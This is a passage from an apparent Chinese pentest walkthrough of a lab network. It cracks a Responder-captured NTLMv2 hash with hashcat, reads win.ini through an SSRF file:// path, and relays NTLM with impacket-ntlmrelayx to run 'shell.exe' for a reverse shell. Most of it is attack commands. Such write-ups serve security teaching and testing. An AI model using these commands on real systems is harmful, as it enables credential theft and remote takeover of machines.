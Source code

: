 ```bash
# 解压 rockyou.txt.gz
gzip -d /usr/share/wordlists/rockyou.txt.gz
# 爆破密码
sudo hashcat -m 5600 /usr/share/responder/logs/SMB-NTLMv2-SSP-192.168.0.123.txt /usr/share/wordlists/rockyou.txt
```

[![](assets/1701606471-466ddf3bbc44e6ffb96e11ae9aaa85d4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231127143411-f9cdde0c-8cee-1.png)

成功爆破到 administrator 账户密码为 123456，下面尝试利用 Relay 中继尝试升级 SSRF 漏洞为 RCE 漏洞。

判断被攻击 IP 能否读取到`win.ini`，如果可以，说明存在 SSRF 的漏洞主机与被攻击机器拥有相同的 NTLM Hash，故可以考虑中继或者读取敏感文件内容，前提是`c$`共享存在，有些环境是不存在的。

```bash
file:////192.168.0.128/c$/windows/win.ini
```

然后，接着通过 ntlmrelayx 进行 SMB 中继反弹 shell。

```bash
# 禁用 445 http，SSRF 利用的话该步骤不需要做，
vim /usr/share/responder/Responder.conf 
sudo responder -I eth0 -v

# 使用 ntlmrelayx 进行中继
sudo impacket-ntlmrelayx  -t 192.168.0.128 -smb2support -e "shell.exe"
```

[![](assets/1701606471-1f414eed5ceb64cffe94dab4776d0d33.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231127143420-ff604508-8cee-1.png)
